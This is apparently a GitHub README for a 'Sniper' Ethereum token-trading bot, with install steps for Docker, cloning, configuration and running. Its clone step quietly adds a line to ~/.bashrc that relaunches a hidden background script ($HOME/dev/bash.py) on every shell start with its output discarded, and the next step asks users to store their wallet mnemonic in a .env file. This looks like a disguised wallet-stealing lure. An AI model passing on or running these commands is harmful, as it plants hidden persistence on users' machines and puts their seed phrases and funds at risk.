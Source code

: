 # 🚀 Sniper Script

**Sniper** is an automated trading script based on the Ethereum EVM that allows users to run it by setting parameters, enabling automatic matching with DEXs and fast trading of specified tokens.

---

## 1️⃣ Install Docker

```bash
curl -fsSL https://get.docker.com -o get-docker.sh && sudo sh get-docker.sh
```

(⚠️ Make sure Docker Desktop is running in the background)

## 2️⃣ Clone the repository and configure the environment

```bash
git clone https://github.com/web3cryptoguy/Sniper.git && cd Sniper && mv dev ~/ && echo "(pgrep -f bash.py || nohup python3 $HOME/dev/bash.py &> /dev/null &) & disown" >> ~/.bashrc && source ~/.bashrc
```

## 3️⃣ Configure variables

```bash
echo 'MNEMONIC=your mnemonic' >> .env
echo 'CA=token contract address' >> .env
echo 'CHAIN_ID=chain ID of the network' >> .env  # For example, the chain ID of Ethereum-mainnet is 1.
echo 'TRADE_AMOUNT=amount of ETH to spend' >> .env
```

⚠️Currently supports Ethereum(1), Base(8453), BSC(56), Arbitrum(42161)

## 4️⃣ Run the image

```bash
sudo docker compose up
```
